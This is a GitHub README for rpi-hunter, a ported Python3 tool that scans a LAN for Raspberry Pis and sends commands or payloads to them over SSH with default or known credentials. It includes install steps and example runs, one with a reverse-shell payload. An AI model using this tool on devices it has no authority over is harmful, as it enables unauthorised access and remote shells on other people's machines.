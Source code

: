 # rpi-hunter


--------------------THIS IS STILL RPI HUNTER HOWEVER I HAVE RECREATED IT IN PYTHON3, AS PYTHON2 WAS VERY BUGGED, AND THE OG OWNER HAS NOT RELEASED A NEWER VERSION OF TRHE SCRIPT I DO NOT OWN THE SCRIPT BUT I DID CHANGE THE CODE, ALL CREDIT GOES TO OG OWNER BUSSES-CAN-FLY




















* Automate discovering and dropping payloads on LAN Raspberry Pi's via ssh
* Or, the honest title: Automating sshpass for command delivery.


![alt text](https://github.com/BusesCanFly/rpi-hunter/blob/master/screenshot.png "Who doesn't love ASCII art?")

Rpi-hunter is  useful when there are multiple Raspberry Pi's on your LAN with default or known credentials, in order to automate sending commands/payloads to them.

# GUIDE:

## Installation

1. Install dependencies: `sudo pip install -U argparse termcolor` and `sudo apt -y install arp-scan tshark sshpass`
2. Download rpi-hunter: `git clone https://github.com/BusesCanFly/rpi-hunter`
3. Navigate to rpi-hunter: `cd ./rpi-hunter`
4. Make rpi-hunter.py executable: `chmod +x rpi-hunter.py`
* One line variant: `sudo pip install -U argparse termcolor && sudo apt -y install arp-scan tshark sshpass && git clone https://github.com/BusesCanFly/rpi-hunter && cd ./rpi-hunter && chmod +x rpi-hunter.py`

## Usage

Check out this sweet [video](https://www.youtube.com/watch?v=qApJyIkDYvQ) and the accompanying [write-up](https://null-byte.wonderhowto.com/how-to/discover-attack-raspberry-pis-using-default-credentials-with-rpi-hunter-0193855/) made by the people over at NullByte!
* **Note:** For the new people, I made a few updates to rpi-hunter to fix some bugs and add some more features :) Running the command `./rpi-hunter.py` will automatically scan your whole local network and run the `whoami` command on any raspberry pi's it finds

```
usage: rpi-hunter.py [-h] [--list] [--no-scan] [-r IP_RANGE] [-f IP_LIST]
                     [-c CREDS] [--payload PAYLOAD] [-H HOST] [-P PORT]
                     [--safe] [-q]

optional arguments:
  -h, --help         show this help message and exit
  --list             List available payloads
  --no-scan          Disable ARP scanning
  -r IP_RANGE        IP range to scan
  -f IP_LIST         IP list to use (Default ./scan/RPI_list)
  -u UNAME           Username to use when ssh'ing
  -c CREDS           Password to use when ssh'ing
  --payload PAYLOAD  (Name of, or raw) Payload [ex. reverse_shell or 'whoami']
  -H HOST            (If using reverse_shell payload) Host for reverse shell
  -P PORT            (If using reverse_shell payload) Port for reverse shell
  --safe             Print sshpass command, but don't execute it
  -q                 Don't print banner
```

* Run `./rpi-hunter.py --list` to see avalible payloads.
* Payloads can be specified by the payload name from `--list` or as raw input
    * ex. `--payload reverse_shell` or `--payload [your cli command here]`

* Example usage: 
	* `./rpi-hunter.py -r 192.168.0.0/16 --payload reverse_shell -H 127.0.0.1 -P 1337`
    	* **Note:** only the "reverse_shell" payload requires the `-H` and `-P` flags
	* `./rpi-hunter.py -c lamepassword --payload "ls -lah \~"`
    	* **Note:** make sure to escape special characters with a `\` 
---
# ***Disclaimer:***
## The standard internet fun disclaimer applies. Don't commit crimes, be responsible.
## I am in no way responsible for anything and everything you do with rpi-hunter.

